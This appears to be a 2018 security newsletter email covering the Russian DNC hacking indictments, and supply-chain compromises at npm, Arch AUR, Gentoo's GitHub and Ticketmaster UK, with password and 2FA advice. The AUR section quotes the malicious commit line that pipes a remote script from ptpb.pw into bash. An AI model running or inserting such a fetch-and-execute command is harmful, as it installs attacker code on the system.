 ```yaml
---
layout: email
title: The Mueller Indictments, NPM, Arch, Gentoo, and Ticketmaster UK
---
```


Good morning.

A longer email today, as a final farewell before I head off on a few weeks of vacation.

My [last email](/Email-update-ASD-becomes-statutory-authority-ISM-gets-update/) contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

As a follow up to that story, [this article](https://warontherocks.com/2018/07/fish-out-of-water-how-the-military-is-an-impossible-place-for-hackers-and-what-to-do-about-it/) has been making the rounds on Twitter. It's very well put together, and covers many of the same issues ASD has with recruitment and retention of good security people.

### The Mueller Indictments

One of the major stories of the week was the [indictment of 12 members of Russian Intelligence](https://lawfareblog.com/russia-indictment-20-what-make-muellers-hacking-indictment) for the hack of the Democratic National Committee in 2016. The indictments themselves are quite interesting, and the forensic work performed by Crowdstrike (and presumably, U.S. intelligence agencies) is incredibly impressive.

Tangentially related was this [Twitter thread](https://twitter.com/pwnallthethings/status/1018164868640329728) by Matt Tait ([@pwnallthethings](https://twitter.com/pwnallthethings)):

<a href="https://twitter.com/pwnallthethings/status/1018166157206016002"><img src="/images/matt-tait-phishing.PNG" alt="Tweet by Matt Tait" class="tweet"/></a>

It's worth reading the whole thread, especially the two tweets containing screenshots of the actual phishing email sent to John Podesta, as well as the fake website set up to steal his credentials. They're quite eye-opening if you've never seen a sophisticated phishing campaign.

As Tait says, modern spear-phishing is extremely effective, and that effectiveness is simply a factor of how much effort the attacker puts into it (and making a convincing phishing email isn't technically difficult). The reality is that if you're targeted by anyone competent, they're going to get your password. 

The trick is to secure yourself in a way that you're not completely screwed the moment someone else steals one of your passwords: mitigations like unique passwords and multi-factor authentication.

### Malicious module published in NPM

It's been a crazy couple of weeks for supply-chain attacks.

We'll start with the most recent, from [Bleeping Computer](https://bleepingcomputer.com/news/security/compromised-javascript-package-caught-stealing-npm-credentials/):

>A hacker has gained access to a developer's npm account and injected malicious code into a popular JavaScript library, code that was designed to steal the npm credentials of users who utilize the poisoned package inside their projects.
>
>The JavaScript (npm) package that got compromised is called eslint-scope, a sub-module of the more famous ESLint, a JavaScript code analysis toolkit.

This is precisely the sort of attack outlined by David Gilbertson in his [Medium post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5) back in January, which I mentioned in a [previous email](/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/). Gilbertson's post was a bit of a wake-up-call to many web developers at the time, and it now seems prescient.

### Malicious package published in Arch User Repository

Two days before the NPM story, a very similar thing happened to Arch Linux. From [Bleeping Computer](https://bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/) again:

>Malware has been discovered in at least three Arch Linux packages available on AUR (Arch User Repository), the official Arch Linux repository of user-submitted packages. [...]
>
>The incident happened because AUR allows anyone to take over "orphaned" repositories that have been abandoned by their original authors.
>
>On Saturday, a user going by the pseudonym of "xeactor" took over one such orphaned package named "acroread" that allows Arch Linux users to view PDF files.
>
>According to a Git commit to the package's source code, xeactor added malicious code that would download a file named "~x" from ptpb.pw, a lightweight site mimicking Pastebin that allows users to share small pieces of texts.

The malicious commit is [here](https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc). At the bottom of the page, you can see highlighted in green the following line:

```curl -s https://ptpb.pw/~x|bash -&```

This command downloads another set of instructions and executes them, which ends up installing a scheduled service and collecting data about each compromised system.

Fortunately, the malicious change was found and removed before more damage was done.

### Gentoo's GitHub account hacked

From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

This is a classic example of where a supply-chain attack is effective. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker, rather than attacking Ticketmaster directly, instead compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up. They included Inbenta's script on a webpage it had no business being, and they're now learning a painful fact about security breaches: even if the attack vector was someone else's product, your customers will still blame you. You can outsource the work, but you can't outsource the blame.